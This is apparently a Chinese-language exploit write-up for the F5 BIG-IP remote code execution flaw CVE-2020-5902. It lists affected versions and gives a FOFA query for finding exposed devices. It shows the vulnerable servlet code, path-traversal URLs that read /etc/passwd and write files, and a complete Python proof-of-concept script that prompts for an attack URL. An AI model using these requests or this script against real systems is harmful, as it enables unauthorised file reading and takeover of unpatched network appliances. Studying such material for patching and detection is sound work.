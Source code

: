# F5 BIG-IP 远程代码执行漏洞 CVE-2020-5902

## 漏洞描述

2020年07月03日， 360CERT监测发现 `F5` 发布了 `F5 BIG-IP 远程代码执行` 的风险通告，该漏洞编号为 `CVE-2020-5902`，漏洞等级：`严重`。

未授权的远程攻击者通过向漏洞页面发送特制的请求包，可以造成任意 Java 代码执行。进而控制 `F5 BIG-IP` 的全部功能，包括但不限于: 执行任意系统命令、开启/禁用服务、创建/删除服务器端文件等。该漏洞影响控制面板受影响，不影响数据面板。

## 漏洞影响

```
F5 BIG-IP 15.x: 15.1.0.4
F5 BIG-IP 14.x: 14.1.2.6
F5 BIG-IP 13.x: 13.1.3.4
F5 BIG-IP 12.x: 12.1.5.2
F5 BIG-IP 11.x: 11.6.5.2
```

## FOFA

```
title="BIG-IP&reg ;- Redirect"
```

## 漏洞复现

在 `tmshCmd` 的 `service`方法处理请求的时候，未对`command` 参数进行处理，直接调用 `WorkspaceUtils.runTmshCommand(cmd, request);` 方法执行命令，限制了执行`delete,create,list,modify`。



```java
if ("POST".equalsIgnoreCase(request.getMethod())) {
            String[] cmdArray = command.split(" ");
            String operation = cmdArray[0];
            String module = cmdArray[2];
            if (!ShellCommandValidator.checkForBadShellCharacters(command) && (operation.equals("create") || operation.equals("delete") || operation.equals("list") || operation.equals("modify")) && WHITELISTED_TMSH_MODULES.contains(module)) {
               try {
                  String[] args = new String[]{command};
                  Result result = Syscall.callElevated(Syscall.TMSH, args);
                  output = result.getOutput();
                  error = result.getError();
               } catch (CallException var11) {
                  logger.error(NLSEngine.getString("ilx.workspace.error.TmshCommandFailed") + ": " + var11.getMessage());
                  error = var11.getMessage();
               }
            } else {
               error = NLSEngine.getString("ilx.workspace.error.RejectedTmshCommand");
}
```



在 `fileRead` 的 `service`方法处理请求的时候，未对 `fileName` 参数进行处理，直接调用 `WorkspaceUtils.readFile(fileName);` 方法，进行文件读取。

![](./images/202202101922859.png)



在 `fileSave` 的 `service`方法处理请求的时候，未对 `fileName`，`content` 参数进行处理，直接调用 `WorkspaceUtils.saveFile(request);` 方法，进行文件上传。



![](./images/202202101922235.png)



[详情利用方式 https://github.com/jas502n/CVE-2020-5902](https://github.com/jas502n/CVE-2020-5902)



[详情利用方式 https://github.com/wx3514/CVE-2020-5902/blob/master/CVE-2020-5902.md](https://github.com/wx3514/CVE-2020-5902/blob/master/CVE-2020-5902.md)



**读取文件**



[**http://xxx.xxx.xxx.xxx/tmui/login.jsp/**](http://xxx.xxx.xxx.xxx/tmui/login.jsp/)**..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd**



![](./images/202202101922541.png)



**写入文件**



[**http://xxx.xxx.xxx.xxx/tmui/login.jsp/**](http://xxx.xxx.xxx.xxx/tmui/login.jsp/)**..;/tmui/locallb/workspace/fileSave.jsp**



**POST: fileName=/tmp/test.txt&content=test**



读取文件 /tmp/test



![](./images/202202101922477.png)



成功写入文件

## 漏洞POC

```python
import requests
import sys
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: F5 BIG-IP                                                \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-5902.py                                  \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    version_url = target_url + "/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept-Language":"zh-CN,zh;q=0.9",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=version_url, timeout=10, verify=False, headers=headers)
        if "output" in response.text:
            print("\033[32m[o] 目标 {} 存在漏洞，响应为:\n{}\033[0m".format(target_url, json.loads(response.text)["output"]))
        else:
            print("\033[31m[x] 目标漏洞无法利用 \033[0m")

    except Exception as e:
        print("\033[31m[x] 目标漏洞无法利用 ,{}\033[0m".format(e))
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```



![](./images/202202101922708.png)



## 参考文章



https://mochazz.github.io/2020/07/11/F5-BIG-IP未授权RCE(CVE-2020-5902)/#未授权命令执行